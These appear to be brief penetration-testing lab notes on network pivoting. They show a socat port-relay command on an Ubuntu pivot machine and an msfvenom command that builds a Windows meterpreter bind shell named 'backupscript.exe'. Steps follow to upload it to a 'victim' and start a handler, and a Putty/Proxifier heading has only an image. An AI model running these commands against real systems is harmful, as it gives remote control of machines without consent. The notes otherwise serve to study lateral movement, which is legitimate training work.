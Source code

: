 ![alt text](image-2.png)

1. Use socat on the pivot machine (ubuntu)
   socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
2. Create t windows bind shell listener 
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
3. Upload the listener to the windows victim
3. Start multi handler 


# Windows Pivoting with Putty/Proxifier 
![alt text](image-3.png)
